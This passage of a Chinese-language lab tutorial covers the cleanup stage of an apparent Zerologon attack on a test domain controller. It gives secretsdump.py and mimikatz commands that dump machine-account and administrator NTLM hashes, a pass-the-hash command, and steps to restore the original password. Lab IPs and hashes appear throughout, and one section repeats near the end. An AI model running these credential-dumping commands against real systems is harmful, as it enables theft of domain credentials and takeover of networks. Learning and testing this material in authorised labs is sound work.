
将刚刚保存的三个文件放到 impacket 的 examples 目录下，执行如下命令，使用secretsdump.py 提取出文件里面的 hash。如下，$MACHINE.ACC 后面的就是原来的机器哈希
1 | python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL |
1 | 07cdaafa0f8a4f56700f156aa65b24f2 |

方式二：
使用 mimikatz 的 sekurlsa::logonpassword 从 lsass.exe 进程里面抓取原域控机器账户hash
这里是在域管本地抓取的，且需要管理员权限
1 | mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" |
抓取到了域机器账户的hash
1 | 07cdaafa0f8a4f56700f156aa65b24f2 |
1 | 8b d1 91 3b 25 65 94 8c 45 24 fa e1 39 a7 56 2b da d1 08 88 64 20 8c d5 d7 6e c1 11 73 f8 82 73 96 bb db 53 31 b9 5e 1f 70 4c cc 05 93 92 35 64 a3 ec 27 70 c5 d7 a4 b9 f2 3b c2 e1 e3 c1 77 21 ee f0 fe 48 32 85 57 76 b9 7e ef b4 c7 44 9c 80 73 1d e3 5f f2 bf 8f ff 24 a9 9e 62 88 a9 70 b3 87 c9 f2 a6 ae de e5 12 0d 86 f8 20 a2 46 0a 35 3f a9 70 03 37 3a dc d6 18 fa 3f df fb 64 7f 2d 9c c4 86 fc 2d 8e a0 1e d9 69 28 8c 42 db f5 4b 72 a3 01 e9 75 0e 4f bc bb 82 d4 5e e4 35 2c 4c 7d 67 b4 19 90 f9 5e 0a 98 60 1e 75 07 79 59 17 d6 4b 68 e2 5b 89 b2 68 1c 35 93 fc 29 4e 59 49 dc b4 f7 01 18 ce e7 91 e8 15 fc 73 f3 fb d4 8d b5 e0 6a bc 85 47 e8 52 99 1c 8c 1d d3 f4 bf 95 31 2d 37 9a c4 f3 61 d2 55 94 e9 93 24 b6 ba c5 |

恢复域控原始哈希
使用了上面的方法获得了域控机器账号的原始哈希后，我们可以使用reinstall_original_pw.py 脚本执行如下命令恢复域控机器账号的原始哈希。该脚本比较暴力，再打一次，计算密码的时候使用了空密码的 hash 去计算session_key。 直接使用机器账号的原始 NTLM 哈希即可还原，执行如下命令恢复：
1 | python3 reinstall_original_pw.py masterpc 192.168.213.100 07cdaafa0f8a4f56700f156aa65b24f2 |
1 | python3 reinstall_original_pw.py 域控主机名 域控IP 原域机器账号hash |

验证是否还原方法一
还原之后使用 secretsdump.py 执行如下命令，看是否还能利用置空后的域机器账户的hash来抓取域管的哈希，来验证是否恢复完成。
1 | python3 secretsdump.py myd.com/masterpc\$@192.168.213.100 -no-pass |
如图所示，抓取失败说明域控机器账号 masterpc$ 的哈希已经恢复了，不再为空。

验证是否还原方法二
通过前边的域管hash，使用 secretsdump.py 执行如下命令导出域控机器账号masterpc$的哈希来确认是否恢复完成。
1 | python3 secretsdump.py myd.com/masterpc\$@192.168.213.100 -hashes aad3b435b51404eeaad3b435b51404ee:ec0df45863a3751d56ba6df1e72f7218 -just-dc-user "masterpc$" |

powershell 脚本重置哈希
也直接在域控上执行如下 powershell 命令，该命令会重置计算机的机器帐户密码。重置后，活动目录数据库，注册表，lsass 进程里面的密码均一致。但是重置后的密码与之前的原始密码不一致。
重置之前
1 | 07cdaafa0f8a4f56700f156aa65b24f2 |
重置之后
1 | powershell Reset-ComputerMachinePassword |

验证是否还原方法一
还原之后使用 secretsdump.py 执行如下命令，看是否还能利用置空后的域机器账户的hash来抓取域管的哈希，来验证是否恢复完成。
1 | python3 secretsdump.py myd.com/masterpc\$@192.168.213.100 -no-pass |
如图所示，抓取失败说明域控机器账号 masterpc$ 的哈希已经恢复了，不再为空。
验证是否还原方法二
通过前边的域管hash，使用 secretsdump.py 执行如下命令导出域控机器账号masterpc$的哈希来确认是否恢复完成。
1 | python3 secretsdump.py myd.com/masterpc\$@192.168.213.100 -hashes aad3b435b51404eeaad3b435b51404ee:ec0df45863a3751d56ba6df1e72f7218 -just-dc-user "masterpc$" |
1 | 8d187d1fb2891d81f43dd71bb98ba5d9 |